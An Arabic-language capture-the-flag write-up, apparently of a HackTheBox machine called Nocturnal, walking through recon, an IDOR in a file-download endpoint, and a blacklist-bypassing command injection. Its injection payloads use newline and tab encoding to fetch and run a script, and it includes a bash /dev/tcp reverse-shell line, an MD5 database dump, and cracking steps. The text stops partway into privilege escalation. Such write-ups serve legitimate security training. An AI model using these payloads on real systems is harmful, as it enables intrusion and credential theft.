## المقدمة
بسم الله الرحمن الرحيم. في هذا التحدي عندنا ويب سيرفر على مدخل 80 يمدينا من خلاله نسجل حساب جديد ونرفع ملفات على السيرفر. عشان نتقدم في التحدي نحتاج نستغل ثغرة IDOR من خلالها نشوف الملفات الخاصة بالمستخدمين الآخرين. بعد ما نطلع على واحد من الملفات راح نحصل بيانات الدخول لأحد المستخدمين. من خلال هذا المستخدم نقدر نقرأ كود أحد الصفحات ونجد أن السيرفر ياخذ بيانات من المستخدم ويضيفها لأمر على النظام، مما يؤدي إلى ثغرة command injection  لكن مع مراعاة قائمة الحظر, بعد ماندخل على السيرفر نقدر نصعد صلاحيات من خلال استغلال ويب سيرفر يحتوي على ثغرة php code injection نقدر من خلالها نرفع ويب شيل على النظام وننفذ أوامر ك root.

## استطلاع
نبدأ بفحص بسيط عشان نشوف استجابة السيرفر والنظام الخاص به:
```bash
ping -c 1 10.10.11.64
64 bytes from 10.10.11.64: icmp_seq=1 ttl=63 time=669 ms
```
عندنا سيرفر لينكس (من خلال ال ttl تقدر تحدد السيرفر). خلينا نفحص مداخل السيرفر، راح أحد الفحص على أعلى 100 مدخل استخدامًا:
```bash
sudo nmap -sS -sC -sV -F 10.10.11.64

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Welcome to Nocturnal
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### الملاحظات
هذي فقرة جديدة من خلالها أكتب الأشياء اللي لاحظتها أو استنتجتها، راح تتراكم المعلومات خلال المقال:

```text
There are two open ports;
22 > OpenSSH 8.2p1
80 > nginx 1.18.0

OS > Ubuntu

The server reqiures the nocturnal.htb domain to function. I'll add it to /etc/hosts
```
## الويب سيرفر (80)
على مدخل 80 راح يواجهنا الويب سيرفر، يشتغل على nginx، هذي المعلومة مفيدة في حال نبغى نبحث عن ثغرة في هذا الإصدار أو في حال حصلنا LFI ونبغى نسوي log poisoning. في هذه الحالة فائدة المعلومة محدودة، راح تواجهنا صفحة من خلالها نقدر نسجل حساب جديد:

بعد ما نسجل حساب جديد راح نتوجه على الداش بورد واللي من خلالها نقدر نرفع ملفات بصيغ pdf, doc, docx, xls, xlsx, odt، يمدينا نحاول ونحقن xml داخل ملف بأي صيغة لكن ماراح نوصل لنتيجة. جربت أرجع استخدم اسلوب path traversal داخل اسم الملف على أساس اخرج من المجلد اللي تتخزن فيه الملفات تحسبًا لأي إعدادات تمنع تنفيذ الكود في مجلد تخزين الملفات لكن بلا جدوى
### الملاحظات
```text
...
I tried uploading a PHP shell with a path traversal sequence,
and the file was successfuly uploaded but still.. no code execution,
trying to inject XML in hopes that the parser will parse the XML code and achive file disclosure didn't work
either. I think the upload function is safe... for now. 
```
## ثغرة IDOR
إذا رفعنا ملف بصيغة مناسبة نلاحظ أن يمدينا نحمل هذا الملف، يوم نضغط على زر التحميل ونفحص الطلب نحصل دليل على أول ثغرة وهي IDOR:

نلاحظ عندنا بارامتر username، خليه على جنب. المثير أنه إذا جربنا نحط اسم ملف ماهو موجود في آخر الصفحة راح يقول الملف غير متوفر، ويعطينا الملفات المتوفرة عند هذا المستخدم:

طيب، ليش مانجرب نغير اسم المستخدم؟ هذا اللي راح اسويه باستخدام ffuf:
```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=habibi.pdf' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -H "Cookie: PHPSESSID=s3jn9f3r72i91h817oebeg51t5" -mr "Available files"


admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 116ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 139ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 127ms]
```
عندنا ثلاث مستخدمين، الوحيد فيهم اللي عنده ملف هو المستخدم amanda بعنوان privacy.odt، خلينا نطلع على محتويات الملف:
```bash
curl 'http://nocturnal.htb/view.php?username=amanda&file=privacy.odt' -H 'Cookie: PHPSESSID=s3jn9f3r72i91h817oebeg51t5' -o privacy.odt

xdg-open privacy.odt
```
هذا محتوى الملف:
```text
Dear Amanda,
Nocturnal has set the following temporary password for you: <REDACTED>. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

Yours sincerely,
Nocturnal's IT team
```

نلاحظ عندنا باسوورد في الملف، حاولت في البداية استعمله عشان ادخل من خلال ssh لكن بلا جدوى، خلينا نجرب ندخل بحسابها على الموقع.
### الملاحظات 
```text
...
The endpoint `/view.php?username=<X>&file=x.pdf` has an IDOR vulnerability which leads to uploaded files
disclosure. By providing an invalid file name with a valid extention and fuzzing the username you are able
to view and access other user's uploaded files, which led to exposing credentials for the user `amanda`
with password `<REDACTED>` 
```
## ثغرة command injection 
إذا جربنا كلمة المرور من الخطوة السابقة نلاحظ أننا نقدر ندخل على حساب هذا المستخدم، يمدينا نشوف الداش بورد الخاصة بالمشرفين:

يمدينا نتصفح محتوى الملفات، الملف الأكثر إثارة هو admin.php واللي يحتوي على هذا الكود:
```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}

...

if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile
```
نلاحظ في بداية الكود الأعلى، دالة باسم cleanEntry واللي تاخذ بيانات يتحكم فيها المستخدم -user input- البيانات عبارة عن باسوورد لأرشيف مضغوط يمدينا نزود الباسوورد في آخر الصفحة:

 يتم تنفيذ أمر على النظام وإضافة كلمة المرور لهذا الأمر. الدالة تشيك على بعض الرموز المستعملة في ثغرة command injection وهذي الرموز لها استعمالات فعلية في نظام لينكس زي (;) واللي يفصل بين أمرين، إذا انتهى تنفيذ الأول بدأ في تنفيذ الثاني. المشكلة أن القائمة هذه غير كاملة، عندنا رمزين مهمة وهي رمز السطر الجديد ورمز التاب (tab). بما أننا قاعدين نتعامل مع الويب راح نشفر الرمزين ذول بتشفير URL ويصير عندنا (newline > %0a) & (tab > %09)، طيب سؤال بسيط. ليش الرمزين هذي بالذات؟ افتح أي ملف تكتب فيه، اكتب أي حرف بعدين اضغط Enter ، تلاحظ أن مؤشر الكتابة نزل سطر. طيب افتح التيرمينال واكتب أي أمر بعدين اضغط Enter ، تلاحظ أن تم تنفيذ الأمر، هذا يعني أن الرمز اللي يعبر عن ضغط زر Enter هو... (newline > %0a)!!، أما بالنسبة للتاب فهي للمسافة، لأن المسافة من ضمن القائمة السوداء واحنا نحتاج يكون فيه مسافة في الأوامر اللي راح ننفذها، لذلك نستخدم التاب. الآن اكتملت الفكرة، خلينا نطبق, هذا طلب عادي بدون تعديل:

نجرب حمولة عادية بدون مراعاة القائمة السوداء:

مع مراعاة القائمة السوداء:

الآن خلينا نحصل اتصال عكسي;
```text
%0awget%09http://ip:port/shell.sh

%0abash%09shell.sh
```
الحمولة الأولى عشان نحمل سكربت باش للإتصال العكسي:
```bash
/bin/bash -i >& /dev/tcp/YOUR_IP/4547 0>&1
```
والثانية عشان ننفذ السكربت
### الملاحظات
```text
The function cleanEntry() checks for the most common characters used in command injection but doesn't check 
for all of them. We can still inject commands using the newline character URL encoded and the 
tab character %0a & %09 respectivly... this is a straight forward exploitation
I used : %0awget%09http://ip:port/shell.sh - for fetching the file from my server.
And : %0abash%09shell.sh - for executing that file. Although I think renaming them is a good practice.
```
## استطلاع داخل السيرفر
بعد ما نحصل اتصال عكسي على السيرفر، نبدأ نشوف إذا عندنا وصول لشبكة داخلية
```bash
ip a 

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:7b:73 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.64/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe94:7b73/64 scope link 
       valid_lft forever preferred_lft forever
```
ماعندنا وصول لأي شبكة داخلية، خلينا نشوف مداخل متاحة بشكل محلي:
```bash
netstat -lntup

Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      945/nginx: worker p 
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           - 
```
- 22 > ssh
- 53 > dns
- 80 > http
- 3306 > mysql
- 25 > smtp
- 8080 > that is interesting > http

خلينا نرسل طلب للسيرفر المحلي على مدخل 8080 ونشوف الرد
```bash
curl -I http://localhost:8080
 
HTTP/1.1 302 Found
Host: localhost:8080
Date: Fri, 22 Aug 2025 20:58:30 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.29
Content-Type: text/html; charset=utf-8
Set-Cookie: ISPCSESS=h8kvi4d6484j2d1j7s9ei1qbie; path=/; HttpOnly; SameSite=Lax
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /login/
```
عندنا الكوكيز ISPCSESS يوم نبحث عنها مانحصل شي مفيد. خلينا نشوف المستخدمين اللي على السيرفر;
```bash
cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
```
هدفنا الآن نحصل على اتصال على السيرفر من خلال المستخدم tobias, أحد الطرق هي إننا نبحث في ملفات النظام عن النص 'tobias'  لكن هذا راح ياخذ وقت. خلينا نحد البحث على ملفات قواعد البيانات:
```bash
for i in $(find / -name *.db 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "tobias" $i 2>/dev/null | grep -v '#';done

File:  /var/www/nocturnal_database/nocturnal_database.db
Binary file /var/www/nocturnal_database/nocturnal_database.db matches
```
طبعا يمدينا بشكل يدوي نفحص المجلدات ونبحث عن ملفات خاصة بقاعدة البيانات وهذا اللي سويته أول ما حليت التحدي، لكن هذي طريقة ثانية. خلينا نشوف نوع الملف:
```bash
file /var/www/nocturnal_database/nocturnal_database.db

/var/www/nocturnal_database/nocturnal_database.db: SQLite 3.x database, last written using SQLite version 3031001
```
ملف بصيغة sqlite3 خلينا نشوف إذا عندنا ثنائية بهذا الاسم على السيرفر:
```bash
which sqlite3

/usr/bin/sqlite3
```
ممتاز. خلينا نستخدمها عشان نفتح الملف:
```bash
sqlite3 /var/www/nocturnal_database/nocturnal_database.db
.dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
...
INSERT INTO users VALUES(1,'admin','<REDACTED>');
INSERT INTO users VALUES(2,'amanda','<REDACTED>');
INSERT INTO users VALUES(4,'tobias','<REDACTED>');
INSERT INTO users VALUES(6,'kavi','<REDACTED>');
INSERT INTO users VALUES(7,'e0Al5','<REDACTED>');
INSERT INTO users VALUES(8,'cupcakez','<REDACTED>');
INSERT INTO users VALUES(9,'abumalik','<REDACTED>');
```
نلاحظ أحد المستخدمين tobias خلينا نشوف نوع الهاش، على جهازي:
```bash
hashid <REDACTED>
[+] MD5
```
ممتاز، عندنا موقع [crackstation](https://crackstation.net) وميزته إنه يستخدم rainbow tables وهي بكل بساطة زي الجدول الخانة الأولى الهاش والثانية النص الأصلي، زي كذا:

|  HASH   | STRING |
| --------------------------------- | ------- |
| <REDACTED>  | <REDACTED>    |
خلينا نحاول ندخل على السيرفر من خلال ssh:
```bash
ssh -D 9050 tobias@nocturnal.htb
```
دخلنا على السيرفر!. استخدمت `D-`  عشان أقدر أوصل للخدمات المحلية على السيرفر، الآن راح استخدم بروكسي على مدخل 9050 محلي على جهازي عشان أقدر أتفاعل مع الخدمة الموجودة على السيرفر على مدخل 8080. راح استعمل `proxychains`:
```bash
proxychains curl http://127.0.0.1:8080

[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:8080  ...  OK
HTTP/1.1 302 Found
Host: 127.0.0.1:8080
Date: Fri, 22 Aug 2025 21:20:47 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.29
Content-Type: text/html; charset=utf-8
Set-Cookie: ISPCSESS=npk3b9viv3t1lqgpd7norhebpo; path=/; HttpOnly; SameSite=Lax
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /login/
```
ممتاز، خلينا نبدأ متصفح من خلال `proxychains`:
```bash
proxychains firefox
```


> لازم تقفل المتصفح نهائيا بعدين تشغله من خلال `proxychains`
{: .prompt-tip }

### الملاحظات
```text
...
The server has no access to any internal networks
There is a service on port 8080 (HTTP)
There are two users on the system : tobias,root
the password of the user tobias can be obtained by dumping /var/www/nocturnal_database/nocturnal_database.db which is an easy MD5 hash <REDACTED>
I used dynamic port forwarding to access the service on port 8080 for further investigation
```
## تصعيد الصلاحيات
الآن يمدينا نتفاعل مع الخدمة على مدخل 8080، إذا حاولنا تسجيل الدخول بالمعلومات اللي جمعناها من قبل ماراح نحصل نتيجة، عندنا خاصية إعادة تعيين كلمة المرور، نزود السيرفر بإيميل واسم مستخدم:

خلينا نبدأ بإيميل موجود في رسالة أماندا (support@nocturnal.htb) مع اسم المستخدم amanda:

إذا جربنا مع اسم المستخدم tobias راح نحصل نفس الرد. خلينا نجرب مع admin:
